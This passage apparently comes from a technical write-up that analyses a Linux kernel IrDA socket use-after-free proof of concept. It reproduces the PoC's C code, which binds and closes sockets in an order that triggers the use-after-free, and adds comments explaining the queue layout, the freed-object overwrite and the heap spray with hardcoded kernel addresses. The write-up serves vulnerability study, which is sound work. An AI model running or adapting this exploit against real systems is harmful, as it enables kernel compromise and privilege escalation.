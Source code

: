 [!] step is different from the PoC which closes sock 3 first and then sock 2. That makes a big difference. Closing sock 2 first would leave a single obj_ias for sock 3 in the queue (links to sock 1 object will be lost). This will not lead to an exploitable UAF case.<br>
Reinserting ias_obj for sock 2 & 3 many times (~5) is not needed. You’re repeating the same operations without affecting the queue layout. To make the whole process clearer here’s the original PoC with comments:

```c
fd1 = socket(0x17,0x5,0);
fd2 = socket(0x17,0x5,0);
fd3 = socket(0x17,0x5,0);
fd4 = socket(0x17,0x5,0);
/* create namespace for xfrm
* this is not required to trigger the bug
*/
create_ns();
irda_bind(fd1,4,0x4a,0x3,"c");
int i;
irda_bind(fd2,4,0x4b,0x3,"c");
irda_bind(fd3,4,0x4c,0x3,"c");
/* at this point there're 3 objects in the queue. refer to fig1 for the queue
* layout*/
irda_bind(fd1,4,0x4a,0x3,"c");
/* binding s1 again reults in self->ias->obj (for s1) being set to NULL.
* However, it does not affect the layout of the queue! */
/* repeated reinsertion of sock 2 and 3 objects 5 times doesn't make any sense.
* These operations are redundant. It's only needed to reinsert 2 and 3 once.
* see fig2 for the queue layout after reinserting ias_obj for sock 2 and fig3
* for after reinserting ias_obj for sock 3. */
for(i=0;i<5;i++) {
/* 0x00 means that it takes self->ias_obj */
irda_set_ias(fd2,"\x00");
irda_set_ias(fd3,"\x00");
}
/* Again, closing sock 1 has no effect on the queue layout. The reference to
* the sock 1 object is lost because of the double bind earlier */
close(fd1);
/* Trace dequeue_general() and you should get the queue layout in fig4 */
close(fd3);
/* annoying the queue and free the first queued object*/
printf("[+] Freeing the first queued ias object \n");
/* THIS IS WHERE THE FIRST UAF HAPPENS. You're overwriting the q_prev ptr in
* the freed sock 3 object with the address of the sock 1 object. Trace
* dequeue_general() again */
close(fd2);
//getchar();
sleep(1);
/* By the time you start the spray, the q_prev ptr in the sock 3 object is
* already overwritten. In some cases you get lucky and there's no object
* allocated where sock 3 object was, so you're overwriting bytes 8 to 16 of
* some unallocated object. If this was q_next for example, then you'd be
* overwriting the freelist ptr and corrupting the slab.
* Note that when you get "unlucky" and some object is already allocated at the
* sock 3 object address, you're overwriting bytes 8 to 16 of that object with
* address of sock 1 obj.
*/
/* If the target object is still not allocated at this point, the spray would
* reset q_prev value to the target address (e.g., 0xdeadbeef in the example).
*/
unsigned char *buf = malloc(4096);
pid_t pid;
u_int64_t addr = 0xffffffff81f01500;
addr = 0xffffffff81efeb60;
//addr = 0xdeadbeef;
```